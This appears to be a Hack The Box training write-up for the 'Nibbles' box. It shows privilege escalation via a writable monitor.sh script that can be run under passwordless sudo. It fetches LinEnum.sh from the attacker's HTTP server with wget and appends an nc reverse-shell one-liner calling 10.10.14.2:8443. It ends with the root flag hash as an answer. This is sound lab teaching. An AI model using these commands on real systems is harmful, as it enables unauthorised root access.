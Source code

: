 ### Overview
- Now that we have a reverse shell connection, it is time to escalate privileges. 
- Unzip the `personal.zip` file and see a file called `monitor.sh`.
```shell-session
nibbler@Nibbles:/home/nibbler$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```
- The shell script `monitor.sh` is a monitoring script, and it is owned by our `nibbler` user.
- It is also shown to be writeable as well.
```shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh

cat monitor.sh
                 ####################################################################################################

                 #                                        Tecmint_monitor.sh                                        #

                 # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #

                 # If any bug, report us in the link below                                                          #

                 # Free to use/edit/distribute the code below by                                                    #

                 # giving proper credit to Tecmint.com and Author                                                   #

                 #                                                                                                  #

                 ####################################################################################################

#! /bin/bash

# unset any variable which system may be using

# clear the screen

clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
       case $name in
         i)iopt=1;;
         v)vopt=1;;
         *)echo "Invalid arg";;
       esac
done

 <SNIP>
```
- Let pull up [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to perform some automated privilege escalation checks. 
- First, download the script to your local attack VM or the Pwnbox.
- Next, start a `Python` HTTP server using the command `sudo python3 -m http.server 8080`.
```shell-session
secmancer@htb[/htb]$ sudo python3 -m http.server 8080
[sudo] password for ben: ***********

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.42.190 - - [17/Dec/2020 02:16:51] "GET /LinEnum.sh HTTP/1.1" 200 -
```
- Back on the target type `wget http://<your ip>:8080/LinEnum.sh` to download the script. 
- If successful, we will see a 200 success response on our Python HTTP server. 
- Once the script is pulled over, type `chmod +x LinEnum.sh` to make the script executable.
- Type `./LinEnum.sh` to run it. 
- We see a ton of interesting output but what immediately catches the eye are `sudo` privileges.
```shell-session
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```
- The `nibbler` user can run the file `/home/nibbler/personal/stuff/monitor.sh` with root privileges. 
- Being that we have full control over that file, if we append a reverse shell one-liner to the end of it and execute with `sudo` we should get a reverse shell back as the root user. 
- Let us edit the `monitor.sh` file to append a reverse shell one-liner.
```shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```
- Finally, catch the root shell on our waiting `nc` listener.
```shell-session
secmancer@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
# id

uid=0(root) gid=0(root) groups=0(root)
```
- From here, we can grab the `root.txt` flag. 
- Congrats, we solved our first box on HTB!

### Questions
- Escalate privileges and submit the root.txt flag.
	- de5e5d6619862a8aa5b9b212314e0cdd